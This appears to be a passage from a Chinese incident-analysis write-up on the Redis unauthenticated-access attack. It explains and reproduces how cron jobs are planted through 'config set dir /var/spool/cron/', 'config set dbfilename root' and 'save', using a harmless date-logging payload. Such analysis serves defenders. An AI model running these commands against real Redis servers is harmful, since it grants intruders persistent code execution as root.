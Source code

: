 
## :hammer: 攻击原理分析
> 看了上面的溯源过程，可能会有一个疑问。
> <br>
> `redis` 被写入了四个 `key` 为 `backup`，值为疑似计划任务命令的键值对，这个很容易理解，因为 `redis` 暴露在公网且没有口令验证，被写入值很正常<br>
> 但是，这条计划任务是如何运行的？恶意脚本又是如何被下载的？

实际上，这里利用的是 `redis` 数据库中的数据持久化操作，使用动态命令将键值对信息持久化存储到磁盘的指定目录下，进而自动运行。具体如下：

1. 远程访问 `redis` ，写入 `key`、`value` 键值对。`key` 随意命名，`value` 为要执行的计划任务
	- 如： `* * * * * echo $(date) >> /root/data.txt`
	- 意为： 每分钟向 `/root/data.txt` 文件中追加一次时间
	- 在 `linux` 中，`cron` 只有 **分、时、日、月、周** 六位，没有秒级，如果需要以秒为单位，可以使用脚本或者 `sleep` 方法来配合实现
2. 动态配置 `redis` 文件持久化路径，并执行持久化命令
	- `config set dir /var/spool/cron/`
		- `/var/spool/cron` 这个目录是 `linux` 定时任务目录之一
	- `config set dbfilename root`
		- `root` root 对应的是 `/var/spool/cron` 定时任务目录下的子目录，该目录下的定时任务是以用户为纬度存储的，所以这里保存的目录名称应该是当前登录的用户名 root
	- `save`
		- 手动触发 `redis` 文件持久化
3. 等待计划任务自动触发

## :hammer: 攻击流程复现
> 这里的复现流程有一个前提：被攻击机的 `redis` 是使用 `root` 账户启动的。 如果不是 `root` 账户启动，可能后面的复现写入数据时会遇到各种各样的权限不足的问题。

### 1. 远程连接 `redis` 服务，写入定时任务
- `set backup "\n* * * * * echo $(date) >> /root/data.txt\n"`
	- 如果遇到 `MISCONF Redis is configured to save RDB snapshots, but it is currently not able to persist on disk. Commands that may modify the data set are disabled, because this instance is configured to report errors during writes if RDB snapshotting fails (stop-writes-on-bgsave-error option). Please check the Redis logs for details about the RDB error` 报错，在终端执行 `config set stop-writes-on-bgsave-error no` 即可（或者直接在 `redis.conf` 配置文件中改为 `stop-writes-on-bgsave-error no` 后重启 `redis` 服务也可以）

### 2. 动态配置 `redis` 的持久化路径和文件名，手动持久化，触发定时任务的保存

- `config set dir /var/spool/cron/`
	- 配置 `redis` 持久化文件存储路径为 `/var/spool/cron`。该目录是 `linux` 系统定时任务存储的目录之一
- `config set dbfilename root`
	- 配置 `redis` 持久化文件存储名称为 `root`。 该文件是 `root` 用户创建的定时任务存储的文件之一
- `save`
	- 手动触发 `redis` 持久化

- 过程如图